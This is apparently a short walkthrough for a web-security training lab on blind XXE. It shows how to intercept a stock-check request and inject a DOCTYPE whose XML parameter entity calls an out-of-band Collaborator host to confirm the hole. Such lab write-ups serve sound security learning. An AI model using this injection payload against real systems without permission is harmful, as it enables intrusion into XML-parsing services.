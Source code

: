 # Lab: Blind XXE with out-of-band interaction via XML parameter entities

Open a product page and hit the check stock button. Intercept the request.

Open Burp collaborator and copy the payload. Paste it into an external entity definition:
`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://<subdomain>.burpcollaborator.net"> %xxe; ]>`

Add this to the XML in the intercepted request and replace the productId with `%xxe;`

Send the request and check collaborator for interactions. This solves the lab.
